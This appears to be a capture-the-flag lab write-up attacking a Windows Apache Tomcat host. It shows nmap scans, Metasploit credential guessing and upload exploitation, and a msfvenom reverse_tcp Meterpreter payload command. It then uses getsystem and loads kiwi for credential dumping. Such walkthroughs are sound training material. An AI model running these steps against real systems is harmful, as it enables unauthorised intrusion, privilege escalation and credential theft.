 We are going to start with the Reconnaissance by scanning the target IP by running nmap however it looks the device is down however nmap is trying to validate if the device is up and running, as we know it is running we can skip "Host Discovery" by using -Pn.

```nmap
sudo nmap -T5 -v -n -Pn <IP>
```

![Image Description](Uploads/Initial%20Scan.png)

![Image Description](Uploads/Second%20Scan.png)

Once we have identified the open ports, we can perform an scan over those ports trying to find more information like versions and potential vulnerabilities.

```nmap
sudo nmap -sC -sV  -p3389,8009,9090 -Pn <IP>
```

![Image Description](Uploads/targeted.png)

Following the instructions "*Discover valid credentials to access the Manager area of the Apache Tomcat server*", with this information we can use Metasploit to search for anyting related to the versions we found, I search for Apache Tomcat Manager and only for Auxiliary module.

![Image Description](Uploads/search.png)

We found an interesting module for Tomcat Application Manager Login Utility. "*This module simply attempts to login to a Tomcat Application Manager instance using a specific user/pass.*", once we configure all the fields, we found a username and password.

![Image Description](Uploads/userpass.png)

Now we have credentials, we need to search for a proper module to exploit it and obtain access to the server, I used similar search but changing the "type" to "exploit" and I found an interesting one to Upload Code Execution, I set all the fields and execute the module. After some seconds we got initial access and we can visualize the first flag.

![Image Description](Uploads/exploit.png)

![Image Description](Uploads/payload.png)

![Image Description](Uploads/flag.png)

I put the meterpreter session in the background on session 1, I tried to use local_exploit_suggester module however the payload I found did not work to escalate my privilege so I decided to enumerate the system manually.

![Image Description](Uploads/background.png)

![Image Description](Uploads/suggester.png)

User is not part of the "Administrators" group however there is a really interesting privilege assigned to the user, **SeImpersonatePrivilege** is a Windows privilege that grants a user or process the ability to impersonate the security context of another user or account, we can abuse of this privilege to impersonate SYSTEM user.

![Image Description](Uploads/enum.png)

![Image Description](Uploads/impersonate.png)

In order to properly abuse to this privilege, I need to be able to obtain a meterpreter session with **windows/meterpreter/reverse_tcp** to execute **getsystem**. So, I decided to create a custom payload with msfvenom (this should have a different IP from our initial shell):

```msfvenom
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<> LPORT=<> -f exe -o shell.exe
```

![Image Description](Uploads/msfvenom.png)

I created a folder to upload **shell.exe** file, once uploaded, I opened a new Meterpreter terminal and I used **multi/handler**. I configured same IP and PORT from msfvenom and click run to start the listener. In my other sessions, I executed .\shell.exe

![Image Description](Uploads/upload_shell.png)

![Image Description](Uploads/meterpreter_shell.png)

Finally with a more powershell reverse shell, I can list available commands and use **getsystem**, "*getsystem command is used to attempt privilege escalation by elevating the current user session to the SYSTEM account or Administrator level, depending on what is available and possible on the target system.*"

Finally we can use **load** command to use **kiwi**.

![Image Description](Uploads/SYSTEM.png)

![Image Description](Uploads/kiwi.png)

